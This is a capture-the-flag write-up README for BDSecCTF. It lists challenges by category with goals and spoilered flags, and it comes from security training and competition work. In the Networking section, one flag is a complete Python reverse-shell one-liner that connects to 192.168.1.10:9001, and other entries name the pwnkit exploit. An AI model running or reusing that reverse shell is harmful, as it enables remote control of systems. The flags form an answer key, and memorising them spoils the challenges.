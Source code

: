 # BDSecCTF - Write Up

## Context
The goal is to solve cybersecurity tests in various categories. The validation of a challenge is done by retrieving a string called flag which confirms the fact that you have passed the associated test and allows you to obtain the associated points.

## Rules
- Time : 24h (07/20/22 17h - 07/21/22 17h (UTC+2) )
- Max Pers per Team : 5
- Submit Limit : 30 per chall

## Results 
<p align='center'>

| ![Screenshot](Stats.png)            | ![Screenshot](Scoreboard.png)                                                                                                           |
| --------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
</p>

## Challenges

### Steganography

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
| [Sound's Good ✘](https://github.com/Beel0w/BDSecCTF/tree/main/Steganography/Sound's%20Good)|50|Convert a base 64 to .mp3. Listen and then convert the resulting number from bytes.fromhex to text. |<details><summary>`Spoiler`</summary>`BDSEC{Y3s_Y0U_GOT_Th3_Fl4G!|}`</details>|
| Deep Dive Into It !! ✘|250||``|

### PWN

| Chall Name|Points|Goal|Flag|
|----------|:--:|:-:|:-:|
| PwnRace ✔|200||``|

### Reverse

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
| BDSec License Checker 0x1 ✘|50|| <details><summary>`Spoiler`</summary>`BDSEC{l1c3n53_ch3ck3r_0x1_2022}`</details> |
| shashdot ✘|50|| `` |
| Flag Box ✔|100|| `` |
| Simple Math ✔|100|| `` |
| Poster ✔|100|| `` |
| BDSec License Checker 0x03 ✘|150|| <details><summary>`Spoiler`</summary>`BDSEC{iTs_lIcEnsE_cHeCker_tHrEE_bDsEc}`</details> |
| BDSec License Checker 0x02 ✘|200||``|

### Cryptography

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|[Crypto Code ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Cryptocode)|25|Using a python library to decrypt a message|<details><summary>`Spoiler`</summary>`BDSEC{cryp70_and_pyth0n_ar3_aw3s0me}`</details> |
|[VIPx01 ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/VIPx01)|25|Decrypting an encrypted message with Affine Cipher| <details><summary>`Spoiler`</summary>`BDSEC{crypt0_ar3_aw3s0m3}`</details> |
|VIPx02 ✘|25||<details><summary>`Spoiler`</summary>`BDSEC{crypt0_ar3_aw3s0m3_&_try_t0_1earn_crypt0}`</details> |
|[Fake ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Fake)|50|Decrypt a message in the form of spam|<details><summary>`Spoiler`</summary>`BDSEC{do3sn't_b3li3ve_1n_unkn0wn_mail}`</details> |
|[Basically RSA ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Basically%20RSA)|100|Decrypting an encrypted message with RSA|<details><summary>`Spoiler`</summary>`DSEC{r54_i5_fUn_r16h7?}`</details> |
|Dominoes ✘|50||<details><summary>`Spoiler`</summary>`BDSEC{n0t_50_e45y_hUh?_433}`</details> |
|Loop Lover ✘|100||<details><summary>`Spoiler`</summary>`BDSEC{ju57_L00p_m3_4w4y}`</details> |

### Web

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|Jungle Templating ✔|100||<details><summary>`Spoiler`</summary>`BDSEC{Y3Y_7H1515_7H3_F146}`</details> |
|[Awesome Note Keeping ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Web/Awesome%20Note%20Keeping)|100|Understanding how the script works in php to bypass the system| <details><summary>`Spoiler`</summary>`BDSEC{tHe_n0t3_K33p1n6_4W350M3_N5}`</details> |
|Knight Squad Shop ✔|100|| <details><summary>`Spoiler`</summary>`BDSEC{mummy_i_can't_write_javaScript}`</details> |

### Programming

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|[Find The Cost ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Programming/Find%20the%20Cost)|100|Create an algorithm to calculate the shortest path from a matrix|<details><summary>`Spoiler`</summary>`BDSEC{35,47}`</details> |

### OSINT

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|[Find The Masterpiece](https://github.com/Beel0w/BDSecCTF/tree/main/OSINT/Find%20The%20Masterpiece) ✔|50|Turn numbers into tone and find the associated music|<details><summary>`Spoiler`</summary>`BDSEC{he’s_a_pirate,2003}`</details> |
|[Find Rejvi ✔](https://github.com/Beel0w/BDSecCTF/tree/main/OSINT/Find%20Rejvi)|70|Find a person’s profile on social media|<details><summary>`Spoiler`</summary>`BDSEC{yoU_goT_m3__oS1nT_I5_fUn_r1Gh7}`</details> |


### Misc

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|[Message of Hufflepuff ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Misc/Message%20of%20Hufflepuff)|50|Find a message from a probability diagram|<details><summary>`Spoiler`</summary>`BDSEC{Huffm@n_Enc0d1ng_go7_D3COD3D}`</details> |
|Find Me Inside ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{M33m_the_butterfly_goes_up_up_and_away}`</details> |

### Networking

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|[Victim & Attacker ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#victim--attacker)|25|Find the ip of the server and the attacker|<details><summary>`Spoiler`</summary>`BDSEC{192.168.1.13_192.168.1.10}`</details> |
|[Which FTP ? ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#which-ftp)|50|Find the ftp version|<details><summary>`Spoiler`</summary>`BDSEC{vsFTPd_3.0.3}` |
|[FTP Creads ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#ftp-creads)|50|Find the credentials to access the ftp server|<details><summary>`Spoiler`</summary>`BDSEC{ftpadmin_ftpadmin}`</details> |
|[Uploaded File ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#uploaded-file)|50|Find the file uploaded on the server| <details><summary>`Spoiler`</summary>`BDSEC{/files/.hacker.not}`</details> |
|[Log Filer ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#log-file)|50|Find the name of the log file associated with the ftp server|<details><summary>`Spoiler`</summary>`BDSEC{vsftpd.log}`</details> |
|[Project Incharge ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#project-incharge)|50|Find the name of the person in charge of the project|<details><summary>`Spoiler`</summary>`BDSEC{Mark}`</details> |
|[Loooon Looong ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#loooong-loooong)|50|Find the date of an event in the logs|<details><summary>`Spoiler`</summary>`BDSEC{Thu_Jul_14_10:16:59}`</details> |
|[Administrator ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#administrator)|50|Find the information entered in a login form|<details><summary>`Spoiler`</summary>`BDSEC{demo,demo}` |
|[Shell ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#shell)|50|Find the executed script to have access to the shell|<details><summary>`Spoiler`</summary>`BDSEC{python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'}`</details> |
|[Secret Key ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#secret-key)|50|Find a secret key in a database| <details><summary>`Spoiler`</summary>`BDSEC{2jo3t12nv51w1pw4wk1kj58s1jb6w0}`</details> |
|[Database Admin ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#database-admin)|50|Find the credentials to connect to the database as admin|<details><summary>`Spoiler`</summary>`BDSEC{root_root}`</details> |
|[HostName ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#hostname)|50|Find the hostname of the server|<details><summary>`Spoiler`</summary>`BDSEC{ftpadmin}`</details> |
|[CodeName ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#codename)|50|Find the codename of a server|<details><summary>`Spoiler`</summary>`BDSEC{xenial}`</details> |
|[Server Info ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#server-info)|50|Find the Server Bone and the version used|<details><summary>`Spoiler`</summary>`BDSEC{Ubuntu_16.04.1_LTS_Xenial_Xerus}`</details> |
|[Service Exploit ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#service-exploit)|50|Find the service package used|<details><summary>`Spoiler`</summary>`BDSEC{polkit}`</details> |
|[Exploit Exploit Exploit ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#exploit-exploit)|50|Find the name of the exploit used|<details><summary>`Spoiler`</summary>`BDSEC{pwnkit}`</details> |
|[Vulnerable Service ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#vuln%C3%A9rable-service)| 50|Find the name of the vulnerable service|<details><summary>`Spoiler`</summary>`BDSEC{pkexec}` |
|[msg.txt ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#msgtxt)|50|Find a note|<details><summary>`Spoiler`</summary>`BDSEC{The_Server_Is_Now_under_My_Control_:D_:D}`</details> |
|[Attacker ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#attacker)|50|Find the name of an attacker|<details><summary>`Spoiler`</summary>`BDSEC{N4N0M473}`</details> |
|[Server User's ✔](https://github.com/Beel0w/BDSecCTF/main/Networking/README.md#server-users) |50|Find the number of users|<details><summary>`Spoiler`</summary>`BDSEC{8}`</details> |  

**Total : 46 Challenges ( 3220 Points )**
 
Credits : [Beel0w](https://github.com/Beel0w)  
Last Edited on: 28/07/2022
  
